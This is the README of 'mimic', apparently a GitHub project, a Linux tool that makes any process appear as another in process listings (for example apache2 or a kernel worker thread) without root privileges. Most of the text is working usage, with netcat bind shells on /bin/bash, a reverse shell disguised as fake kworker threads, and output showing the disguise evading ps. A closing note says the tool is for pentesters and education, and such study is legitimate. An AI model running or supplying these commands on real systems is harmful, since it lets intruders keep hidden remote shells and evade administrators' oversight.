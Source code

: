 # mimic

_mimic_ is a tool for covert execution on Linux x86\_64.

**What is "covert execution"?**

Covert execution is the art of hiding a process. In this case, _mimic_ hides the process in plain sight. _mimic_ can launch any program and make it look like any other program. Any user can use it. It does not require special permissions. It does not require special binaries. It does not require a root kit.

**What?! No special privileges??**

That is correct. _mimic_ works by rearranging the internal structures of a process in such a way that it confuses the /proc entry for that process. All tools that report the nature of a process do so by examining /proc. If we can bend /proc, then we can hide a process in plain sight. Since we are only altering the state of a process we own, anyone can successfully run _mimic_.

**Can this be detected?!**

Of course, but only if you are looking very closely, or running a forensic tool that is looking for this sort of thing. The usefulness behind _mimic_ is that it will prevent someone from becoming suspicious in the first place.

**Will this work with scripts?**

Yes, but you need to call mimic directly on the interpreter. For example, if the first line of your script is "#!/usr/bin/perl" then you'll want to call _mimic_ like this:

	empty@monkey:~$ mimic -e "/usr/bin/perl test.pl" 

By invoking the interpreter directly, mimic can work it's magic.

**Who is the target audience for _mimic_?**

Anyone who legitimately needs covert execution before they have gotten root. This includes, but is not limited to:
 * Pentesters.
 * Investigators performing covert operations (with the prior approval of their Legal and HR departments, of course.)

**Why is it called "_mimic_"?**

Because "Liar, liar, /proc on fire!" was too long.

**What is "set_target_pid"?**

set_target_pid is a small helper program in the mimic suite that will exhaust pids until the one you want comes back around. This allows you to choose where in the process listing you want your process to sit. Note that the kernel reserves the first 300 pids for kernel threads. If you try to go below that, you'll probably end up running with pid 301.


## Usage ##

	usage: mimic -e COMMAND [-m MIMIC] [-b] [-a KEY=VALUE] [-q] [-h]
		-e	Execute COMMAND.
		-m	Setup COMMAND to look like MIMIC.
				Default for non-root is:    "/usr/sbin/apache2 -k start"
				Default for root is:        "[kworker/0:0]"
		-b	Launch COMMAND in the background.
		-a	Add / overwrite KEY to the mimic environment with associated VALUE.
		-q	Be quiet! Do not print normal output.
		-h	Print this helpful message.
	
		Notes:
			The MIMIC environment will be a copy of the COMMAND environment.
			The '_' variable is automatically changed.
			The -a flag can be called multiple times to add / overwrite multiple variables.
	
		Examples:
			mimic -e /bin/bash
			set_target_pid 1 && mimic -e /bin/bash
			mimic -b -e "./revsh"
			mimic -b -e "nc -l -e /bin/bash"
			mimic -b -e "nc -l -e \"mimic -e /bin/bash\""


## Examples ##

First example - Launching a netcat listener as a regular user:

	empty@monkey:~$ ./mimic -b -e "/usr/local/bin/ncat -l -e \"./mimic -e /bin/bash\""
	Launching child...                  Success!
	Waiting for child to attach...      Success!
	Initializing ptrace_do...           Success!
	Determining stack state...          Success!
	Politely requesting name change...  Success!
	Searching for main()...             Success!
	Building execution headers...       Success!
	Setting up final state...           Success!
	
		Good-bye and have a good luck! :)
	
	empty@monkey:~$ ps aux | grep apache
	empty     1931 19.5  0.0  16648  1324 pts/1    S    21:41   0:02 /usr/sbin/apache2 -k start
	empty     1935  0.0  0.0   7596   836 pts/1    S+   21:41   0:00 grep apache
	
	empty@monkey:~$ sudo lsof -i -n -P | grep apache
	[sudo] password for empty: 
	apache2  1931 empty    3u  IPv6  14462      0t0  TCP *:31337 (LISTEN)
	apache2  1931 empty    4u  IPv4  14463      0t0  TCP *:31337 (LISTEN)

Second example - Launching a netcat reverse shell as root:

	root@monkey:~$ /home/empty/code/mimic/set_target_pid 1 && /home/empty/code/mimic/mimic -b -q -e "/usr/local/bin/ncat -e \"/home/empty/code/mimic/mimic -e \\\"/bin/bash\\\"\" localhost 9999"
	
Can you spot the fake kworkers? Would you be able to without the help of grep?

	root@monkey:~$ ps aux | grep kworker | grep -v grep
	root        18  0.0  0.0      0     0 ?        S    19:39   0:00 [kworker/3:0]
	root       197  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:3]
	root       198  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:4]
	root       199  0.0  0.0      0     0 ?        S    19:39   0:06 [kworker/u:5]
	root       302 23.4  0.0  18748  1912 pts/5    S    22:28   0:02 [kworker/0:0]
	root       304 11.4  0.0   3780   296 pts/5    S    22:28   0:00 [kworker/0:0]              
	root       305 10.8  0.0  10644  1200 pts/5    S    22:28   0:00 [kworker/0:0]
	root       426  0.0  0.0      0     0 ?        S    20:20   0:00 [kworker/1:0]
	root       434  0.0  0.0      0     0 ?        S    20:20   0:00 [kworker/3:2]
	root       536  0.0  0.0      0     0 ?        S    20:12   0:00 [kworker/0:0]
	root       879  0.0  0.0      0     0 ?        S    20:39   0:00 [kworker/2:0]
	root      1463  0.0  0.0      0     0 ?        S    19:39   0:00 [kworker/1:2]
	root      2132  0.0  0.0      0     0 ?        S    19:47   0:00 [kworker/2:2]
	root      2607  0.0  0.0      0     0 ?        S    20:01   0:01 [kworker/0:1]
	
 Of course, no kworker should have an open socket, but I'm sure you can be more creative with your naming choices than this. :)

	root@monkey:~$ lsof -i -n -P | grep kworker
	kworker/0  302  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)
	kworker/0  304  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)
	kworker/0  305  root    4u  IPv4  20546      0t0  TCP 127.0.0.1:47054->127.0.0.1:9999 (ESTABLISHED)

Note that I'm running here as root only because a kworker thread should be *very* suspicious running as a non-root user. The new mimic name is just a string. It doesn't have to be an existing process. Hell, it doesn't even have to be a real thing!

	empty@monkey:~$ code/mimic/mimic -q -e /bin/bash -m "Totally not a rootkit\!"
	
	empty@monkey:~$ ps aux | grep rootkit | grep -v grep
	empty      399  2.9  0.0   3780   300 pts/4    S    22:34   0:00 Totally not a rootkit!          
	empty      400  2.7  0.0  19372  2044 pts/4    S    22:34   0:00 Totally not a rootkit!


## Installation ##

	git clone https://github.com/emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..
	
	git clone https://github.com/emptymonkey/mimic.git
	cd mimic
	make


## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

